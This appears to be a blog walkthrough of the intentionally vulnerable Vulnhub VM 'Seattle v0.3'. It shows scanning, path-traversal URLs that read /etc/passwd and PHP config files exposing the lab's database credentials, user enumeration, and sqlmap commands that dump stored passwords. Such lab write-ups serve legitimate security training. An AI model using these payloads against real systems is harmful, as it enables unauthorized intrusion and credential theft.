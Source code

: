 ```yaml
---
layout: post
title: Seattle v0.3 Walkthrough
subtitle: Virtual Machine hosted on vulnhub from HollyGraceful
date: 2017-03-08 00:00:00
lastupdated: 
category: Vulnhub
tags: [vulnhub, walkthrough]
bigimg: /img/walkthrough1.jpg
comments: true
---
```


# Table of contents
{:.no_toc}

* Will be replaced with the ToC, excluding the "Contents" header
{:toc}

## Preface

Hi guys, today I'm ready to publish my walkthrough against the vm hosted on vulnhub called [Seattle v0.3](
https://www.vulnhub.com/entry/seattle-v03,145/) by HollyGraceful.

Let's go guy! We can find a few notes on [vulnhub's page](https://www.vulnhub.com/entry/seattle-v03,145/)'s description:

```plaintext
Graceful’s VulnVM is web application running on a virtual machine, it’s designed to simulate a simple eCommerce style website which is purposely vulnerable to a number of well know security issues commonly seen in web applications. This is really a pre-release preview of the project but it’s certainly functional as it stands, but I’m planning on doing a lot of work on this in the near future.

The plan is ultimately to have the application vulnerable to a large number of issues with a selection of different filters at different difficulties that way the as testers become better at detecting and exploiting issues the application can get hardened against common exploitation methods to allow the testers a wider ranger of experiences.

The first filters have now been implemented! The application now supports “levels” where Level 1 includes no real filtration of user input and Level 2 includes a simple filter for each vulnerable function.

Currently it’s vulnerable to:

    SQL Injection (Error-based)
    SQL Injection (Blind)
    Reflected Cross-Site Scripting
    Stored Cross-Site Scripting
    Insecure Direct-Object Reference
    Username Enumeration
    Path Traversal
    Exposed phpinfo()
    Exposed Administrative Interface
    Weak Admin Credentials
```


## Information Gathering

After launching netdiscover to find the vm's ip address,
![Net Discover](/assets/vulnhub/seattle/netdiscover.png)

I scanned the server with nmap and I could see apache web server version 2.4.16 was running on port 80:
![Nmap](/assets/vulnhub/seattle/nmap.png)

So I browsed it and I could see this:
![Web Site](/assets/vulnhub/seattle/website.png)


## Vulnerability Analysis

After that I decided to launch nikto, which revealed two directories admin, downloads and a lot of security issues, among which a remote file inclusion vulnerability!
![Nikto](/assets/vulnhub/seattle/nikto.png)


## PHP Info Disclosure

According with nikto that there is a phpinfo page which allows us to run various vulnerabilities to read the PHP source code pages: 

![PHP Info](/assets/vulnhub/seattle/phpinfo.png)

* allow_url_fopen=On    - which implies that LFI may be possible.
* allow_url_include=Off - which implies that RFI may not be possible.
* display_errors=Off    - which implies that errors aren't displayed in output.

![PHP Info 2](/assets/vulnhub/seattle/phpinfo2.png)

* include_path: .:/usr/share/pear:/usr/share/php - LFI only possible for these paths however.


## Path Traversal

if we click on catalogue link, the website offers us a pdf file download link. So I tried to put in the item parameter some ../ and the path of passwd file to use a Local File Inclusion vulnerability according to nikto:

```plaintext
http://192.10.2.9/download.php?item=../../../../etc/passwd
```

and I could download it:

```plaintext
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
systemd-timesync:x:999:997:systemd Time Synchronization:/:/sbin/nologin
systemd-network:x:998:996:systemd Network Management:/:/sbin/nologin
systemd-resolve:x:997:995:systemd Resolver:/:/sbin/nologin
systemd-bus-proxy:x:996:994:systemd Bus Proxy:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
avahi-autoipd:x:170:170:Avahi IPv4LL Stack:/var/lib/avahi-autoipd:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
</div>
<div class="products-list"></div>
```

Then I navigated around the website and I found the admin account :smiley:
![Admin Account](/assets/vulnhub/seattle/admin-account.png)

According with the nikto results I navigated into admin folder and I could see these webpages:
![Admin Webpages](/assets/vulnhub/seattle/admin-webpages.png)

So we can use the LFI vulnerability and we download them:

```plaintext
http://192.10.2.9/download.php?item=../admin/admincontent.php
```

Inside it there was an include file named connection.php:
![Admin Content PHP file](/assets/vulnhub/seattle/admin-content-php.png)

So I downloaded it:

```plaintext
http://192.10.2.9/download.php?item=../admin/connection.php
```

and then I downloaded config.php file:

```plaintext
http://192.10.2.9/download.php?item=../admin/config.php
```

Inside it we can see the root credentials and the name of database! Fine! :smile:

```plaintext
<?php
$host = 'localhost';
$user = 'root';
$pass = 'Alexis*94';
$database = 'seattle';
?>
</div>
<div class="products-list"></div>
```


## User enumeration

If we try to insert fake email and password before, and the admin email and a fake password we can see that the website says us which is the correct email:
![User Enumeration](/assets/vulnhub/seattle/user-enumeration.png)


## Sql Injection

I tried to test sql injection on the products page:
![Sql Error](/assets/vulnhub/seattle/sql-error.png)

Fine :smirk: ! It seemed sql injection vulnerable. After that I tried to use sqlmap to exploit it. So I tried to use Burp Suite to capture http header of webpage and then I used it with sqlmap:
![Burp Suite](/assets/vulnhub/seattle/burp-suite.png)

```plaintext
root@kali:~# sqlmap -r http_header.txt --dbs --dbms MySQL --level 3 --risk 3
```

![SqlMap](/assets/vulnhub/seattle/sqlmap.png)

Good! I found the database seattle, if you remember we find it previously. Now we need to find the tables inside seattle database.If you remember we find one table previously, when I showed the content of admincontent php file, exactly the table's name is tblMembers but we launch sqlmap anyway to enumerate tables:

```plaintext
root@kali:~# sqlmap -r http_header.txt -D seattle --tables --dbms MySQL --level 3 --risk 3
```

We can find three tables tblBlogs, tblMembers and tbProducts:
![SqlMap](/assets/vulnhub/seattle/sqlmap1.png)

Now we need to find the columns of tblMembers to find admin password:

```plaintext
root@kali:~# sqlmap -r http_header.txt -D seattle -T tblMembers -columns --dbms MySQL --level 3 --risk 3
```

![SqlMap](/assets/vulnhub/seattle/sqlmap2.png)

```plaintext
root@kali:~# sqlmap -r http_header.txt -D seattle -T tblMembers -C password --dump --dbms MySQL --level 3 --risk 3
```

![SqlMap](/assets/vulnhub/seattle/sqlmap3.png)

Perfect! Now we can browse in the login page and we enter the admin's email found before and the password:
![Admin Login](/assets/vulnhub/seattle/admin-login.png)


## Reflected XSS

Reflected XSS discovered in author parameter in blog php file:
![Reflected XSS](/assets/vulnhub/seattle/reflected-xss.png)

